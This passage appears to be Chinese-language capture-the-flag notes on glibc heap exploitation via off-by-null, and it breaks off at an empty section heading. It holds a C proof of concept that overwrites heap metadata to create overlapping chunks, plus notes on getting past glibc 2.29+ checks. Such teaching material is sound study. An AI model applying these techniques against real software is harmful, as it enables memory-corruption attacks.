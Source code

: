 `chunk overlap`

### 常用触发方式

至少需要`off by null`

### 图解

![off_by_null_2.27](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/off_by_null_2.27.png)

### POC

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(){
    size_t* chunk1 = malloc(0x4f0); // big 
    size_t* chunk2 = malloc(0x18); // small
    size_t* chunk3 = malloc(0x4f0); // big

    printf("Before off-by-null the size of chunk1 is 0x%x.\n", (int)chunk1[-1]);
    free(chunk1);
    
    /* vuln */
    chunk2[2] = 0x520;
    chunk2[3] = 0x500;
    /* ends */

    free(chunk3);

    printf("After off-by-null the size of chunk1 is 0x%x.\n", (int)chunk1[-1]);
    printf("Due to we DID NOT free the chunk2, we get a overlapped chunk.\n");
    return 0;
}
```

## >=glibc2.29

在`glibc2.29`及以后版本，`glibc`会检查将要被`unlink`的`chunk`的`size`域是否等于被`off-by-null`的`chunk`的`prev_size`，而我们传统的做法一般是无法通过这个检查的。

从该版本开始，根据是否可以泄露堆地址，有下面两种做法：

- 可泄露堆地址，那么在低版本做法中的第一个`chunk`中伪造`fake chunk`，伪造`size`、`fd`、`bk`即可。
- 不可泄露堆地址，较为复杂，需要通过`unsortedbin`或者`laregbin`的特性进行构造。

### 可泄露堆地址

### 利用方式
